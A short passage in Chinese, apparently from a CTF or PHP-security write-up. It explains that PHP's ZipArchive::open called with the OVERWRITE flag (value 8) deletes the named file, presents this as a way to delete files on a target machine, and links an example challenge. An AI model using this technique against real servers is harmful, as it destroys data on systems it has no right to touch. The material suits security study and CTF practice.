**注意，如果设置flags参数的值为 ZipArchive::OVERWRITE 的话，可以把指定文件删除。这里我们跟进方法可以看到const OVERWRITE = 8，也就是将OVERWRITE定义为了常量8，我们在调用时也可以直接将flags赋值为8**

 也就是说我们可以**通过ZipArchive直接调用open方法删除目标机上的文件**  

#### 利用姿势例题：[梦里花开牡丹亭](https://blog.csdn.net/jvkyvly/article/details/115052002?ops_request_misc=%7B%22request%5Fid%22%3A%22166860085916782425668184%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=166860085916782425668184&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-115052002-null-null.142^v63^control,201^v3^add_ask,213^v2^t3_control1&utm_term=梦里花开牡丹亭&spm=1018.2226.3001.4187)

